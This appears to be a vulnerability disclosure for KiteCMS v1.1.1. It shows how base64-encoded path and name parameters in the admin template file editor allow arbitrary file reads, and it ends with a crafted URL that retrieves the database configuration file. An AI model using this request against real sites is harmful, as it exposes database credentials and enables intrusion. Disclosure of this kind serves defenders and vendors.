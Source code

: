 ## Arbitrary file reading vulnerability exists in background module management in KiteCMS-V1.1.1

vendor: https://github.com/Kitesky/KiteCMS

Vulnerability Position：ip/index.php/admin/template/filelist.html

Log in to the backend：

Visit http://ip/index.php/admin/template/filelist.html ， Will access the page of the module

Click to edit，It jumps to another page ---> http://192.168.1.128/index.php/admin/template/fileedit.html?path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s&name=YmFzZS5odG1s

and we find that the path and name parameters are encrypted by base64 by reporting an error.

![image](https://user-images.githubusercontent.com/54017627/161426724-f2d9bda6-5a26-46f9-8f83-7e9980e22c74.png)

![image](https://user-images.githubusercontent.com/54017627/161426977-33532da0-36c1-4643-b051-f12014f420f5.png)

```
http://192.168.1.128/index.php/admin/template/fileedit.html?path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s&name=YmFzZS5odG1s
path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s---> D:/phpStudy/PHPTutorial/WWW/theme/company/base.html
name=YmFzZS5odG1s --->base.html
```

![image](https://user-images.githubusercontent.com/54017627/161426913-68ed20df-fd6d-48cd-8fe8-77f7b68b8adb.png)

![image](https://user-images.githubusercontent.com/54017627/161426891-5dc32924-3961-4640-b09f-f362e160528c.png)

We found the warehouse of the cms in github and inferred the local path of the database file configuration of the cms

The local path to the database file configuration of the cms: D:\phpStudy\PHPTutorial\WWW\config\database.php

We encode the path with base64 ---> RDpccGhwU3R1ZHlcUEhQVHV0b3JpYWxcV1dXXGNvbmZpZ1xkYXRhYmFzZS5waHA=

![image](https://user-images.githubusercontent.com/54017627/161427483-4628467a-6512-4dff-9898-47b7eba27494.png)

Then splice the transcoded path to the url: http://ip/index.php/admin/template/fileedit.html?path=RDpccGhwU3R1ZHlcUEhQVHV0b3JpYWxcV1dXXGNvbmZpZ1xkYXRhYmFzZS5waHA=&name=ZGF0YWJhc2UucGhw

Access found that the database configuration file of the cms was successfully read.

![image](https://user-images.githubusercontent.com/54017627/161427556-375d9ee3-f5e2-4ac4-8f86-0778b8567aed.png)
